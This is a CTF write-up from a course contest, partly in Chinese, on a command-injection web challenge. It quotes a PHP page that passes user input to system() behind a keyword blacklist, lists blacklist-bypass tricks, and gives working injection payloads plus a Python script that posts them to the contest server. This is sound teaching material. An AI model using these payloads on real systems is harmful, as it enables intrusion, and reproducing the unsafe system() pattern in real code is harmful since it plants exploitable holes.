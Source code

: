 # 2023 NCU ADL CTF Writeups --- `web`

<div align="right">
    <p>
        <a href="https://1chooo.github.io/ctf-writeups/"><b>👨🏻‍💻 Home</b></a> |
        <a href="https://1chooo.github.io/ctf-writeups/pwn/"><b>🔒 <code>pwn</code></b></a> |
        <a href="https://1chooo.github.io/ctf-writeups/web/"><b>🌏 <code>web</code></b></a> |
        <a href="https://github.com/1chooo/ctf-writeups/tree/main/web/"><b>⌚️ GitHub</b></a>
    </p>
</div>

## 01. Monster

## 05. Command Injection

```php
<?php if (isset($_POST['json'])) : ?>
    <section class="has-text-left">
        <p>Result:</p>
        <pre><?php
        $blacklist = ['|', '&', ';', "\n", '?', '*', '$', 'cat', 'flag'];
        $is_input_safe = true;
        foreach ($blacklist as $bad_word)
            if (strstr($_POST['json'], $bad_word) !== false) $is_input_safe = false;

        if ($is_input_safe)
            system("echo '" . $_POST['json'] . "'| jq .bocchi");
        else
            echo '<img src="nanana.gif"/>';
        ?></pre>
    </section>
<?php endif; ?>
```

這段 PHP 代碼的主要功能是處理來自表單 POST 請求的資料，並對資料進行安全性檢查和處理。

1. **條件檢查：**  
   這段代碼開始於 `<?php if (isset($_POST['json'])) : ?>`，它首先檢查是否有名為 'json' 的資料以 POST 方式提交到這個網頁。

2. **顯示結果區域：**  
   如果有 'json' 資料提交，就會進入下一個部分，其中包含了以下內容：

   - **設置黑名單：**  
     ```php
     $blacklist = ['|', '&', ';', "\n", '?', '*', '$', 'cat', 'flag'];
     ```
     這行程式碼定義了一個 `$blacklist` 陣列，其中包含了一些可能會被用來試圖操縱系統的特殊字符或字串，例如命令注入字符 (`|`, `&`, `;` 等) 和特定字詞 (`cat`, `flag` 等)。

   - **安全性檢查：**  
     ```php
     $is_input_safe = true;
     foreach ($blacklist as $bad_word) {
         if (strstr($_POST['json'], $bad_word) !== false) {
             $is_input_safe = false;
         }
     }
     ```
     使用 `foreach` 迴圈遍歷黑名單，檢查提交的 'json' 資料是否包含黑名單中的任何字符或字串。如果發現任何不安全的字詞，則會將 `$is_input_safe` 設置為 `false`。

   - **安全性處理和輸出：**
     ```php
     if ($is_input_safe) {
         system("echo '" . $_POST['json'] . "'| jq .bocchi");
     } else {
         echo '<img src="nanana.gif"/>';
     }
     ```
     如果提交的 'json' 資料通過安全性檢查 (`$is_input_safe` 是 `true`)，則會執行一個系統命令使用 `system()`。這個命令使用 'jq' 工具（一個命令行下的 JSON 處理器）從提交的 JSON 資料中提取 'bocchi' 鍵的值，並在 `<pre>` 標籤中顯示它。

   - **處理不安全的輸入：**
     如果輸入被判定為不安全（包含黑名單中的內容），則會顯示一張圖片 (`nanana.gif`)，以預防性方式取代執行 'jq' 命令，這樣做可以防止處理不安全的輸入可能帶來的安全風險。

### Keyword繞過 [^1]

- String Concat
    - `A=fl;B=ag;cat $A$B`
- Empty Variable
    - `cat fl${x}ag`
    - `cat tes$(z)t/flag`
    
- Environment Variable
    - `$PATH => "/usr/local/….blablabla”`
        - `${PATH:0:1}   => '/'`
        - `${PATH:1:1}   => 'u'`
        - `${PATH:0:4}   => '/usr'`
    - `${PS2}` 
        - `>`
    - `${PS4}`
        - `+`
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
        - `cat "fl""ag"`

- 反斜線
    - `c\at fl\ag`


### Solution

因為從題目中我們可以看到，`cat` 和 `flag` 都在黑名單中，因此如果我們直接注入 `{"bocchi":"'`cat flag`'"}` 會得不到我們要的內容，會被原始碼裡的程式邏輯給擋掉，因此我們先嘗試了 `{"tenshi": "Ijichi Nijika", %%"bocchi"%%: "Goto Hitor-"}` 發現不會進到 else 但是也無法成功注入，後來我們找到了 Keyword 繞過的方法，在 `cat` 以及 `flag` 之中添加一些可以繞過的字串，也就是說還是會組成 `cat flag` 但是中間加上的字元會被繞過，因此我們最後注入的 payload 為：

1. <code>{"tenshi": "Ijichi Nijika", "bocchi":"'`tac f[l]ag`'"}</code>
2. <code>{"bocchi":"'`tac f[l]ag`'"}</code>
3. <code>{"bocchi":"'`c""at fl""ag`'"}</code>
4. <code>{"bocchi":"'`c\at fl\ag"}</code> (Not Successful)

我們也試過把 `cat` 給相反過來，並且在 `flag` 使用 keyword 繞過，也是有成功拿到 flag，注入的 payload 為：
1. <code>{"bocchi":"'`tac f[l]ag`'"}</code>

並且寫了一個 Python Script 來做注入，最後成功拿到 flag。

```python
import requests
from bs4 import BeautifulSoup

def send_json_to_form(json_data):
    url = 'http://140.115.59.7:12001/'

    # Set the data to be sent
    data = {
        'json': json_data
    }

    try:
        response = requests.post(url, data=data)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            tag_content = soup.find('pre').text.strip()
            print("Content within <pre> tags:")
            print(tag_content)
        else:
            print("Error occurred, unable to send JSON data to the form.")
    except requests.RequestException as e:
        print("An exception occurred:", e)

# JSON data to send

json_to_send = '''{"bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"tenshi": "Ijichi Nijika", "bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"bocchi":"'`c""at fl""ag`'"}'''

# Call the function to send JSON data to the form
send_json_to_form(json_to_send)
```

## CONTACT INFO.

> AWS Educate Cloud Ambassador, Technical Support 
> <br>
> **Hugo ChunHo Lin**
> 
> <aside>
>   📩 E-mail: <a href="mailto:hugo970217@gmail.com">hugo970217@gmail.com</a>
> <br>
>   🧳 Linkedin: <a href="https://www.linkedin.com/in/1chooo/">Hugo ChunHo Lin</a>
> <br>
>   👨🏻‍💻 GitHub: <a href="https://github.com/1chooo">1chooo</a>
>    
> </aside>

## License
Released under [MIT](https://1chooo.github.io/my-uni-courses/LICENSE) by [Hugo ChunHo Lin](https://github.com/1chooo).

This software can be modified and reused without restriction.
The original license must be included with any copies of this software.
If a significant portion of the source code is used, please provide a link back to this repository.

[^1]: [Command Injection#keyword 繞過](https://github.com/w181496/Web-CTF-Cheatsheet?tab=readme-ov-file#command-injection)


<div align="center">
    <p>
        <a href="https://github.com/1chooo" target="_blank"><b>👨🏻 GitHub</b></a> |
        <a href="https://1chooo-github-io-1chooo.vercel.app/" target="_blank"><b>👨🏻‍💻 Portfolio</b></a> |
        <a href="https://1chooo.github.io/1chooo-blog/" target="_blank"><b>📓 Blog</b></a> |
        <a href="https://1chooo-github-io-1chooo.vercel.app/resume" target="_blank"><b>🧳 Resume</b></a> |
        <a href="https://medium.com/@1chooo" target="_blank"><b>📠 Medium</b></a> |
        <a href="https://www.youtube.com/channel/UCpBU1rXOfdTtxX939f_P_dA" target="_blank"><b>🎥 YouTube</b></a>
    </p>
    <div>
        <b>©2023-2024  Hugo H. Lin</b>
    </div>
</div>